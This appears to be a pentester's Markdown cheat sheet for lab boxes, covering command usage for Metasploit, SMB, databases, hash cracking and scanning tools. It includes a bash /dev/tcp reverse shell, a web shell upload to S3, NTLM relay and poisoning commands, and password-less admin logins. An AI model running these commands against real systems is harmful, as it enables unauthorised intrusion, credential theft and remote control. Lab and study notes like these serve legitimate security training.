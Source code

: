 # Tools
Helpful resources
 - https://gowthams.gitbook.io/bughunter-handbook/  (quick reference)
 - https://exploit-notes.hdks.org (quick reference) 
 - https://portswigger.net/web-security/dashboard
 - https://cloud.hacktricks.xyz/welcome/readme
 - https://gtfobins.github.io/gtfobins/vi/#sudo
### Metasploit
 - use `exploit/...`
 - `show options`
 - `run`
 - After u r in a shell, u can put it in background using `background`.
 - Upgrade most recently opened session `sessions -u -1`.


### ZAP
 - `Tools -> Spider`
 - `Analyze -> Scan Policy Manager` remove the things u do not want to scan for, like if no DB, why SQL scanning?
 - see https://tryhackme.com/room/dastzap for authenticated scan details.

### Redis
 - `sudo apt install redis-tools`
 - `redis-cli -h {target_IP}`
 - `info`
 - `select 0` select db with index number.
 - `keys *`, list keys.
 - `get <key>`.

### xfreerdp
 - `xfreerdp /u:administrator  /v:10.129.1.13` try to connect without password.

### gobuster
 - `gobuster dir -u 10.129.145.11 -w ~/SecLists/Discovery/Web-Content/common.txt`

### mongo
 - ./mongo mongodb://{target_IP}:27017
 - help
 - show dbs;
 - use <db_name>;
 - show collections;
 - db.<collection_name>.find().pretty();

### rsync
 - `rsync --list-only 10.129.204.156::` list directories.
 - `rsync --list-only 10.129.204.156::public` list files within directory, here named public.
 - `rsync {target_IP}::public/flag.txt flag.txt` bring remote flag.txt in my machine.

### Mysql
 - `mysql -h <ip> -u root` to login.
 - SHOW databases; : Prints out the databases we can access.
 - USE {database_name}; : Set to use the database named {database_name}.
 - SHOW tables; : Prints out the available tables inside the current database.
 - SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.

### AWS s3
 - aws --endpoint=http://s3.thetoppers.htb s3 ls
 - aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
 - `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` to upload

### SSH tunneling
 - `ssh -L 1234:localhost:5432 christine@{target_IP}` locally we will be listening to 1234

### SMB
 - `smbclient \\\\10.10.10.131\\ADMIN$ -U Administrator` list.
 - `smbclient -L 10.129.27.203 -U administrator`.
 - `python psexec.py username:password@hostIP`.
 -  `psexec.py administrator@10.10.10.131`.

### John
 - `zip2john backup.zip > zip.hashes` dumps hashes to file.
 - `john zip.hashes` cracks the password.

### Hashcat
 - `hashcat -a 0 -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt` crack md5.
 - `hashcat -m 5600 hash.txt rockyou.txt` crach ntlm.

## Scanning
### nmap
 - `nmap --script=smb2-security-mode.nse -p445 <network>/24` find devices with smb signing disabled.
### Rustscan
 - `./rustscan -a 10.129.95.185 -r 1-65535` maybe use rustscan to find open ports first, and then use nmap for service detection and stuff.
### sqlmap
 - `sqlmap -u "http://10.129.29.21/dashboard.php?search=%27" --cookie="PHPSESSID=f0mn05nbrdadh5164gavl9q4un"`

### Responder
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv` listen and respond for LLMNR poisioning.
 - `impacket-ntlmrelayx -tf targets.txt -smb2support` pass the hash, targets.txt has victims ip, `-i` to get interactive smb shell, `-e meterpreter.exe`.

### bash
 - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`, reverse shell.
 - `sudo -l` check sudo permissions.
